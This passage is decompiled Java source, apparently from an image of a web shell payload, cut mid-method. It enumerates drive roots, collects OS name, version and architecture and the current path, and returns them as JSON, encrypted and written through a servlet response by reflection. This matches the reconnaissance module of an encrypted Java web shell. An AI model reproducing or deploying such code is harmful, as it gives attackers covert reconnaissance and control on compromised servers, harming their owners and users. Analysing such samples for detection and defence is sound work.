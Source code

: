 ```java
                File[] roots = File.listRoots();
                File[] var10 = roots;
                int var11 = roots.length;

                for(int var12 = 0; var12 < var11; ++var12) {
                    File f = var10[var12];
                    driveList = driveList + f.getPath() + ";";
                }

                String osInfo = System.getProperty("os.name") + System.getProperty("os.version") + System.getProperty("os.arch");
                Map<String, String> entity = new HashMap();
                entity.put("basicInfo", basicInfo.toString());
                entity.put("currentPath", currentPath);
                entity.put("driveList", driveList);
                entity.put("osInfo", osInfo);
                entity.put("arch", System.getProperty("os.arch"));
                result = this.buildJson(entity, true);
                var22 = false;
                break label132;
            } catch (Exception var26) {
                var22 = false;
            } finally {
                if (var22) {
                    try {
                        Object so = this.Response.getClass().getMethod("getOutputStream").invoke(this.Response);
                        Method write = so.getClass().getMethod("write", byte[].class);
                        write.invoke(so, this.Encrypt(result.getBytes("UTF-8")));
                        so.getClass().getMethod("flush").invoke(so);
                        so.getClass().getMethod("close").invoke(so);
                    } catch (Exception var23) {
                    }

                }
            }

            try {
                so = this.Response.getClass().getMethod("getOutputStream").invoke(this.Response);
                write = so.getClass().getMethod("write", byte[].class);
                write.invoke(so, this.Encrypt(result.getBytes("UTF-8")));
                so.getClass().getMethod("flush").invoke(so);
                so.getClass().getMethod("close").invoke(so);
            } catch (Exception var24) {
            }

            return true;
        }

        try {
            so = this.Response.getClass().getMethod("getOutputStream").invoke(this.Response);
            write = so.getClass().getMethod("write", byte[].class);
            write.invoke(so, this.Encrypt(result.getBytes("UTF-8")));
            so.getClass().getMethod("flush").invoke(so);
            so.getClass().getMethod("close").invoke(so);
        } catch (Exception var25) {
        }

        return true;
    }

    private byte[] Encrypt(byte[] bs) throws Exception {
```